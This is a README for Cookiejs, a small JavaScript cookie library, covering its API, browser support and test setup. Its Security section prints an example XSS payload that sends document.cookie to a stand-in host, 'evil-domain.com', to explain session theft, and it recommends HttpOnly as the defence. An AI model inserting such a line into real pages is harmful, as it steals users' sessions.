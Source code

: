 
# Cookiejs

[![Build Status](https://travis-ci.org/bradberger/cookies.svg)](https://travis-ci.org/elementaryjs/cookies)

A complete cookies reader/writer framework with full unicode support in under 1 kB with 100% test coverage.

## Credits

It's taken entirely from the [Mozilla Developer Network](https://developer.mozilla.org/en-US/docs/Web/API/document.cookie#A_little_framework.3A_a_complete_cookies_reader.2Fwriter_with_full_unicode_support).

## Syntax

### Setting a cookie
    Cookies.set(name, value[, end[, path[, domain[, secure]]]]);

### Getting a cookie value
    var value = Cookies.get(name);

### Removing a cookie
    Cookies.remove(name[, path], domain);

### Checking if cookie exists
    var has = Cookies.has(name);

### Getting a list of all cookies
    var keys = Cookies.keys();

## Security

It is important to note that the path restriction does not protect against unauthorized reading of the cookie from
a different path. It can easily be bypassed with simple DOM (for example by creating a hidden iframe element with
the path of the cookie, then accessing this iframe's contentDocument.cookie property). The only way to protect cookie
access is by using a different domain or subdomain, due to the same origin policy.

Cookies are often used in web application to identify a user and their authenticated session. So stealing cookie
from a web application, will lead to hijacking the authenticated user's session. Common ways to steal cookies include
using Social Engineering or by exploiting an XSS vulnerability in the application:

    (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

The HTTPOnly cookie attribute can help to mitigate this attack by preventing access to cookie value through
Javascript. Read more about [Cookies and Security](http://www.nczonline.net/blog/2009/05/12/cookies-and-security/).

## Browser Support

Should work in pretty much all browsers.

Tests are run against the following browsers:

- Firefox (latest)
- Firefox (beta)
- Chrome (latest)
- Chrome (beta)
- Safari (OS X 10.10)
- Safari (OS X 10.09)
- Opera (latest)
- Internet Explorer 8
- Internet Explorer 9
- Internet Explorer 10
- Internet Explorer 11
- Safari on iOS 6
- Safari on iOS 7
- Safari on iOS 8
- Android (latest, currently 5)
- Android 4.4
- Android 4.3
- Android 4.2
- Android 4.1
- Android 4.0

## Tests

Tests are set up in the `tests` directory and use the [Karma test runner](https://karma-runner.github.io).

The project uses [GulpJS](//gulpjs.org) for the entire workflow. So make sure that you update the NPM requirements:

    npm install
    
Then to make changes and test use the default gulp task:

    gulp
    
This task watches the project directories, compiles the JavaScript, and runs all tests on the compiled JavaScript.

## Roadmap

Not much is planned. It does what it needs to. Feel free to submit issues or pull requests if you have any ideas.
